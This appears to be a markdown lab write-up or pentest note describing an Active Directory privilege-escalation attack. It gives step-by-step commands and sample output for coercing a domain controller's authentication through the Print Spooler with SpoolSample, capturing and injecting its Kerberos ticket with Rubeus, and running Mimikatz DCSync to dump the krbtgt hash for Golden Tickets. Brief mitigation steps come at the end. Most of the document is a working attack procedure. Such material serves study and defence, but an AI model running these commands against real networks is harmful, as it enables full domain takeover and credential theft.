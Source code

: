 # Exploiting Unconstrained Delegation with SpoolSample

## 🔍 Overview
This attack exploits **Unconstrained Delegation** in an Active Directory environment to obtain the **TGT of a Domain Controller (DC)** without requiring user interaction. The key component of this technique is the **Print Spooler service vulnerability**, which forces a DC to authenticate to an attacker-controlled machine with Unconstrained Delegation enabled.

---

## 📌 Exploiting the Print Spooler to Capture a DC TGT

### 1️⃣ **Checking if Print Spooler is Enabled on the DC**
Use PowerShell to check if the print spooler service is running on a **Domain Controller (DC)**:
```powershell
PS C:\Tools> dir \\CDC01\pipe\spoolss
```
If the output shows the `spoolss` named pipe, it confirms that the print spooler service is accessible.

---

### 2️⃣ **Using SpoolSample to Force Authentication from the DC**
The **MS-RPRN (Microsoft Print System Remote Protocol)** allows us to **coerce** authentication from a **Domain Controller** (CDC01) to a machine under our control (APPSRV01), which has **Unconstrained Delegation** enabled.

Run **SpoolSample.exe**:
```cmd
C:\Tools> SpoolSample.exe CDC01 APPSRV01
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\CDC01, CaptureServer: \\APPSRV01
Attempted printer notification and received an invalid handle. The coerced authentication probably worked!
```
> ⚠️ **Note:** You may need to run SpoolSample multiple times before it successfully triggers authentication.

---

### 3️⃣ **Monitoring for TGT Capture Using Rubeus**
We use **Rubeus** in monitoring mode to capture the **TGT** from the DC:
```cmd
C:\Tools> Rubeus.exe monitor /interval:5 /filteruser:CDC01$ /nowrap
```
✅ If successful, **Rubeus** will display the captured **TGT** for the **Domain Controller (CDC01$)**:
```
[*] 4/13/2020 2:45:16 PM UTC - Found new TGT:
User : CDC01$@PROD.CORP1.COM
StartTime : 4/13/2020 2:26:32 AM
EndTime : 4/13/2020 12:26:32 PM
RenewTill : 4/15/2020 8:14:07 AM
Flags forwardable
Base64EncodedTicket : doIFIjCCBR6gAwIBBaEDAgEWo...
```

---

### 4️⃣ **Injecting the TGT into Memory for DC-Level Privileges**
Now that we have the **TGT of the DC**, we inject it into memory using **Rubeus**:
```cmd
C:\Tools> Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
[*] Action: Import Ticket
[+] Ticket successfully imported!
```
---

### 5️⃣ **Performing DCSync to Extract Domain Credentials**
With the **TGT of the DC**, we can use **Mimikatz** to **extract all password hashes from Active Directory**:
```cmd
mimikatz # lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```
Sample output:
```
Hash NTLM: 4b6af2bf64714682eeef64f516a08949
```
✅ Now we have the **NTLM hash of the KRBTGT account**, meaning we can generate **Golden Tickets** and take full control of the domain.

---

## 🔥 **Relation to Unconstrained Delegation**
This attack is possible **only because of Unconstrained Delegation**. Here’s why:

- The DC **automatically forwards its TGT** when authenticating to a system with **Unconstrained Delegation**.
- By coercing the DC to authenticate using **SpoolSample**, we **capture its TGT**.
- With **Rubeus**, we **inject the TGT into memory**, allowing us to act as the **Domain Controller**.
- With **DCSync**, we extract **NTLM hashes**, leading to **complete domain compromise**.

---

## 🚀 **Conclusion**
This attack shows how dangerous **Unconstrained Delegation** is. If an attacker compromises a **single** machine with this setting enabled, they can escalate privileges to **Domain Admin** without any user interaction.

📌 **Mitigation Steps**:
- **Disable Unconstrained Delegation** for critical systems like **Domain Controllers**.
- **Disable the Print Spooler service** on **Domain Controllers** if not needed:
  ```powershell
  Stop-Service -Name Spooler -Force
  Set-Service -Name Spooler -StartupType Disabled
  ```
- **Monitor Kerberos authentication logs** for abnormal TGT requests.

---

## 🛠 **Tools Used**
- **SpoolSample**: Exploits **MS-RPRN** to force authentication from a DC.
- **Rubeus**: Captures and injects **TGTs** in memory.
- **Mimikatz**: Performs **DCSync** to dump **NTLM hashes**.



